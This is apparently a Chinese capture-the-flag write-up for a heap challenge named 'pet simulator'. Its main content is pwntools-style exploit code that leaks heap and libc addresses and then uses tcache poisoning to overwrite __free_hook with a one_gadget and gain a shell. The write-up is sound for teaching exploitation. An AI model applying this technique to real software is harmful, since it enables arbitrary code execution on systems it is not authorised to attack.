






# pet simulator  
堆题，保护全开。这题一开始忘给libc附件了，我不知道是tcache所以一开始没敢做，然后free后发现有tcache的特征才确认。  
  
  
  
  
  
发现edit可以覆盖到下一个heap的前一部分，因此可以把tcache中的指针泄露出来。  
```
add()
add()
add()
free(1)
edit(0,b'a'*0x40)
show(0)
p.recvuntil(b'a'*0x40)
getaddr=u64(p.recv(6).ljust(8,b'\x00')) #堆地址
print('getaddr:',hex(getaddr))
edit(0,p64(0)*6+p64(0x61)+p64(0))#还原
```
得到堆地址后利用tcache投毒，使新的chunk开到有libc函数地址的地方，用show打印出来就行了。  
  
gdb调试发现在getaddr+0x7a0附近就有libc，选择这个地方的另一个原因是chunk开在这后size为0x1e1，free时不会出错（这题最多只能开3个chunk，资源非常紧张，我一开始为了得到libc开在其他地方，由于size为0不能free，耽误了好久）  
```
add()
add()
edit(2,b'a'*0x40)
show(2)
p.recvuntil(b'a'*0x40)
libcaddr=u64(p.recv(6).ljust(8,b'\x00')) #libc地址
print('libcaddr:',hex(libcaddr))
libcbase=libcaddr-libc.sym['_IO_2_1_stderr_']
print('libcbase:',hex(libcbase))
free_hook=libcbase+libc.sym['__free_hook']
print('free_hook:',hex(free_hook))
one_gadget=libcbase+0xe3b01
system_addr=libcbase+libc.sym['system']
```
得到的其实是_IO_2_1_stderr_的地址，由此可以得到libcbase。  
最后再次利用一次tcache投毒使free_hook为one_gadget即可  
```
edit(2,b'\x00'*0x50)
free(2)
add()

free(2)
free(1)
edit(0,p64(0)*6+p64(0x61)+p64(free_hook-0x40))
add()
add()
edit(2,p64(0)*3+p64(one_gadget))
free(0)
p.interactive()
```
注意如果当时为了得到libc时开的chunk不能free，那么就不能完成最后一次投毒。  
其实没用到comment函数，感觉这个函数没啥作用。